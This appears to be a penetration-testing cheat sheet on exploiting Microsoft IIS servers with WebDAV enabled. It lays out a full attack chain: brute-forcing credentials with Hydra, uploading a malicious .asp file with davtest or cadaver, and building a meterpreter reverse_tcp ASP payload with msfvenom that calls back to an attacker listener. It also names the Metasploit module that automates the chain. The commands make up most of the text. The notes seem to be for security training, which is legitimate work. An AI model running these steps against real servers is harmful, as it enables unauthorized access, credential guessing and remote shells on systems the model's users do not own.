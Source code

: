 IIS is the microsoft web server software for windows systems. Works with ASP.NET and PHP, with file extensions like .asp, .aspx, .config, .php.

WebDAV (Web-based Distributed Authoring and Versioning) enables a web server to work as a file server.

# Exploitation
- Identify if WebDAV is configured in IIS server.
- Perform brute-force attack to obtain credentials.
- Upload a malicious .asp file.

# Tools

## Davtest
Used to scan, authenticate and exploit a WebDAV server.
```
davtest -url URL -auth USER:PASS
```

## Cadaver
Is a client used to interact with WebDAV files
```
cadaver WEBDAV_URL
> put FILE
```

## Hydra
```
hydra -L USER_LIST -P WORDLIST IP_ADDRESS http-get /WEBDAV-DIR/
```

## Metasploit 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp
[!] The file extension depends of the results of davtest
For listener use multi/handler and the same payload of msfvenom

This can be automated with exploit/windows/iis/iis_webdav_upload_asp
```